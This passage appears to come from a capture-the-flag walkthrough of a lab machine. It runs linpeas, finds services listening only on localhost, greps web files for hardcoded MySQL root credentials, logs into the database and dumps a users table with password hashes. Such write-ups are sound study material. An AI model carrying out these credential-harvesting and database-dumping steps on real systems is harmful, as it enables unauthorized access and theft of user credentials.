 Now let's make the file executable and run it:
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh > linpeas_report
```

We find 2 other open ports we did not find before (because they are accessible only from the localhost):
```
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```

Let's check what they hold.
```bash
 curl http://localhost:9001
```

This prints a login page.

While port 3306 is for mysql, if we try to interact we are required a password that we do not have, yet.

We need some credentials, let's check in the website (login page) if we can find any useful file
```bash
cd /var/www/files
```

```bash
 grep -lr password
```

There are 2 files with that keyword: `account.php` and `index.php`, let's open them

The index file actually contains some credentials for mysql:
```php
 $con = new PDO("mysql:dbname=webportal;host=localhost","root","REDACTED_PASSWORD"
```

Now we can open the database:
```bash
 mysql -h localhost -u root -D webportal -P 3306 -p 
```

```mysql
SHOW tables;
```
```mysql
SELECT * FROM users;
```

And we have user "Aurick" password:
```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```
